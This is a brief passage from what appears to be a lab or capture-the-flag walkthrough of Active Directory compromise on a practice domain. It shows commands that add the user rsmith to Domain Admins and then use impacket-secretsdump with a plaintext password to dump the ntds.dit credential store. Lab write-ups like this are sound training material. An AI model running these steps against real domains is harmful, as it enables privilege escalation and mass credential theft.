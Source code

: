 ![image.png](../images/trusted%2026.png)

he is a member of the domain admins so let’s add rsmith to the domain admins

```bash
net group "Domain Admins" rsmith /add /domain
```

![image.png](../images/trusted%2027.png)

now let’s use secrets dump to dump the ntds.dit

```bash
impacket-secretsdump lab.trusted.vl/rsmith:'IHateEric2'@10.10.204.86
```
